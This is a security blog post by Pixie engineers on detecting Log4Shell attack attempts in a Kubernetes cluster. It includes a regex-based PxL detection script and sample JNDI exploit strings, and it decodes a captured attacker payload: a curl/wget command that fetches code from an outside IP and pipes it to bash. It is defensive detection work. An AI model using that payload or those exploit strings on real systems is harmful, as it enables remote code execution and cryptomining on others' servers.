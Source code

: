 ```yaml
---
path: '/did-i-get-owned-by-log4shell'
title: 'Did I get owned by Log4Shell?'
date: 2021-12-10T06:00:00.000+00:00
featured_image: sos-emergency-exit.png
categories: ['Pixie Team Blogs', 'eBPF', 'Security']
authors: ['Omid Azizi', 'James Bartlett', 'Vihang Mehta']
emails: ['oazizi@pixielabs.ai', 'jamesbartlett@pixielabs.ai', 'vihang@pixielabs.ai']
---
```


<alert severity="error">
Are your <a href="https://www.lunasec.io/docs/blog/log4j-zero-day/#who-is-impacted">services impacted</a> by this exploit?
If so, start with the <a href="https://www.lunasec.io/docs/blog/log4j-zero-day/#permanent-mitigation">mitigation</a> first.
</alert>

Earlier today, [news](https://www.lunasec.io/docs/blog/log4j-zero-day/) broke about a serious 0-day exploit in the popular Java logging library `log4j`. The exploit – called `Log4Shell` – allows remote code execution (RCE) by entering certain strings into the log statement. This can be a serious security vulnerability if a server logs the inputs it receives over a public endpoint.

In this post, we'll show how we used Pixie to quickly check for `Log4Shell` attacks in our Kubernetes cluster.

## How Does Log4Shell Work?

In a nutshell, the `Log4Shell` exploit means that if a string containing a substring of the form `${jndi:ldap://1.1.1.1/a}`  is logged, then you may be exposed to a RCE attack. When this string is logged, `log4j` will make a request to the IP, and get a reference to a class file which will then get loaded into your Java application with JNDI. This means your Java application could then be used to execute arbitrary code of the attacker's choice.

Our goal is not to go into too much detail on `Log4Shell`, since others have already done a great job of that. Instead we're going to focus on how Pixie helped us identify whether we were under attack.

For more details on `Log4Shell`, you can check out this blog, which does a good job of explaining the exploit and mitigation: https://www.lunasec.io/docs/blog/log4j-zero-day.

## Are we being attacked?

We don't deploy Java services at Pixie so we were confident that this wasn't an issue for us. But the team was still curious about whether anyone was trying to attack us. Within minutes, a member of our team, James, put out this [PxL script](https://docs.px.dev/tutorials/pxl-scripts/) which checks for instances of the `Log4Shell` exploit:

```python
import px

# Get all HTTP requests automatically traced by Pixie.
df = px.DataFrame('http_events')

# Get the pod the HTTP request was made to.
df.pod = df.ctx['pod']

# Check HTTP requests for the exploit signature.
re = '.*\$.*{.*j.*n.*d.*i.*:.*'
df.contains_log4j_exploit = px.regex_match(re, df.req_headers) or px.regex_match(re, df.req_body)

# Filter on requests that are attacking us with the exploit.
df = df[df.contains_log4j_exploit]

df = df[['time_', 'remote_addr', 'remote_port', 'req_headers', 'req_method', 'req_path', 'pod']]

px.display(df)
```

[log4j only needs to log a string like](https://www.lunasec.io/docs/blog/log4j-zero-day/#example-vulnerable-code) `${jndi:ldap://127.0.0.1/a}` to request and eventually execute a returned payload. [Pixie traces all the HTTP requests](https://docs.px.dev/about-pixie/data-sources/) in your Kubernetes cluster, and stores them for future querying. So in our script, we simply search over the `http_events` table for requests that contain the attack signature -  the `jndi` string. [^1]

Running the script on our cluster, we immediately noticed some `Log4Shell` traffic:

<svg title="Pixie automatically traces all HTTP traffic flowing through your K8s cluster. Checking the HTTP request headers for the exploit signature exposes numerous attack requests on our staging cluster." src='jndi-http-logs.png' />

<svg title="The contents of one of the HTTP attack requests. Note the 'jndi' exploit signature with originating IP address." src='jndi-referrer-details.png' />

The exploit requests were hitting our public cloud-proxy service, where the User-Agent included the exploit string. In this case, the attacker hopes that we use log4j to log the User-Agent value. We investigated the originating IP address, `45.155.205.233` and discovered that it was based in Russia.

Another team member, Vihang, then figured out that the payload of the exploit string is the following:

```bash
$ base64 -d <<< "KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8zNC4xMDIuMTM2LjU4OjQ0M3x8d2dldCAtcSAtTy0gNDUuMTU1LjIwNS4yMzM6NTg3NC8zNC4xMDIuMTM2LjU4OjQ0Myl8YmFzaA=="
(curl -s 45.155.205.233:5874/34.102.136.58:443||wget -q -O- 45.155.205.233:5874/34.102.136.58:443)|bash%
```

The situation around the `Log4Shell` exploit is still evolving, but [tweets](https://twitter.com/GossiTheDog/status/1469322120840708100) indicate that this payload contains a Bitcoin miner.

## Are we leaking?

Now we know that some attacker tried to scan us with the `Log4Shell` exploit. Our next question was whether the attacker succeeded. Again, Pixie doesn’t rely on Java services, but we did want to know how a Java user could detect a successful attack.

A successful exploit requires the attacker to “phone home” with sensitive information, so we need to check if any connections were made back to the `45.155.205.233` IP that we found in the attack.

We can use Pixie’s existing `px/outbound_conns` script to check for this. This script shows a list of connections from our pods made to endpoints outside the k8s cluster. This script has an optional IP filter field that we populate to see if any connections (regardless of protocol) are made to that IP.

In this case, when we run the script, we see that we have no such connections, as expected:

<svg title="Using the `px/outbound_conns` script to check for all outbound connections from our pods, filtered by the IP address of the attacker shows that no connections were returned to the attacking IP." src='outboundconns.png' />

While we caught no such instances, for a user who was using Java, any outbound connections to the attacker would be recorded.

## Check if your cluster is being attacked

<alert severity="warning">
Detecting these exploits is a moving target and as such the lack of any results from these scripts doesn't guarantee that your cluster isn't being attacked some other way.
Whether or not you see any results from this script, we strongly recommend following all mitigation steps ASAP.
</alert>

When a 0-day exploit is published, there’s a rush by attackers to take advantage. At the same time, developers of cloud services are scrambling to see if they are exposed and to patch any vulnerabilities.

To quickly check if your cluster is being attacked, you can:

1. [Install Pixie](https://docs.px.dev/installing-pixie/install-guides/) on your Kubernetes cluster.
2. Save the following script as `log4shell.pxl`. [^2]

```python
import px

# Get all HTTP requests automatically traced by Pixie.
df = px.DataFrame('http_events')

# Get the pod the HTTP request was made to.
df.pod = df.ctx['pod']

# Check HTTP requests for the exploit signature.
re = '.*\$.*{.*j.*n.*d.*i.*:.*'
df.contains_log4j_exploit = px.regex_match(re, df.req_headers) or px.regex_match(re, df.req_body)

# Filter on requests that are attacking us with the exploit.
df = df[df.contains_log4j_exploit]

df = df[['time_', 'remote_addr', 'remote_port', 'req_headers', 'req_method', 'req_path', 'pod']]

px.display(df)
```

3. Run the custom PxL script using Pixie’s [Live CLI](https://docs.px.dev/using-pixie/using-cli/#use-the-live-cli), using the -f flag to provide the script’s filename:

```bash
px live -f <path to script>/log4shell.pxl
```

If you discover that you are being attacked, you can read about mitigation steps [here](https://www.lunasec.io/docs/blog/log4j-zero-day).

[^1]: Unfortunately detecting exploit attempts are a moving target: [scanners are trying new means of obfuscating the exploit](https://twitter.com/sans_isc/status/1469653801581875208).

[^2]: This script looks for the literal `jndi` in the request headers and body. This won't necessarily match obfuscated attacks and you probably want to tweak the script to match more patterns as need be.

Questions? Find us on [Slack](https://slackin.px.dev/) or Twitter at [@pixie_run](https://twitter.com/pixie_run).
